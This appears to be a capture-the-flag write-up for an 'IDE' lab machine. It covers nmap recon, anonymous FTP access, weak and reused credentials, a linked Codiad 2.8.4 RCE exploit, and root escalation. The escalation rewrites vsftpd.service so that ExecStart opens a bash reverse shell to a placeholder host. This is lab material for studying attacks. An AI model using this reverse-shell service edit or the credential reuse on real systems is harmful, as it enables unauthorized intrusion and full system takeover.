 # IDE
### Users
```
john
drac
```
### Credentials
```
Codiad Web app:
john:password

System:
drac:Th3dRaCULa1sR3aL
/home/drac/.bash_history:mysql -u drac -p 'Th3dRaCULa1sR3aL' --> From .bash_history
- Credentials reused for system user
```
## Recon
### Nmap Scan
```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.105.103
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
**Quick Look:**
FTP:
* Anonymous login allowed

HTTP:
* Apache default page

HTTP 62337:
* Codiad 2.8.4
### Web Recon
**Port 62337**
Service running on port 62337 was vulnerable to an Authenticated Remote Code Execution vulnerability which I was able 
to leverage in my favour to get a reverse shell into the machine.
https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit --> More Here

## Foothold / Privilege Escalation
The server had an FTP service running and I was able to login using anonymous credentials.
Inside the developers tried to hide a file under the “…” directory and called it “-”. So when I downloaded and changed the name to message, it read a message from the admins about the credentials for the user john. It stated the password was reset to the default password which was very easily guessable since it was “password”. The credentials in question were for the service running on port 62337 which was Codiad v2.8.4, this version was vulnerable to an Authenticated Remote Command Execution vulnerability.
The exploit is related to how Codiad processes file uploads and the lack of proper input validation. The core of the issue is the unsafe inclusion of user-provided files.
I used the Codiad RCE exploit to get an initial foothold in the machine.
### Privilege Escalation
Looking through the machine I found another user drac, and in his home directory he did not clean up his .bash_history file so I was able to read through it and found a MySQL database password with his username.
I tested for credential reusage and was successful, I now have a real user compromised.\
**Privilege Escalation via .service files**\
As the user drac I had sudo permissions on the vsftpd service, more importantly I could restart it with sudo.
So with this information I could try and change the vsftpd.service file to execute a reverse shell when I restart it.
```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<LISTENER_PORT 0>&1'
ExecReload=/bin/kill -HUP $MAINPD
ExecStartPre=-/bin/mkdir -p /var/run/vsftp/empty

[Install]
WantedBy=multi-user.target
```
If you restart it now you will get an error, but just execute what the error tells you and restart vsftpd again but don't forget to setup your listener otherwise the shell won't work and you get root.
## Notes
**Privilege Escalation via editing .service files**\
Using .service files an attacker if they have permissions, modify files and execute unwanted commands. Like in this case I modified the vsftpd.service file in a way that when the ftp service starts it will give my current user sudo permissions for the whole system. So I could just sudo su and get root.
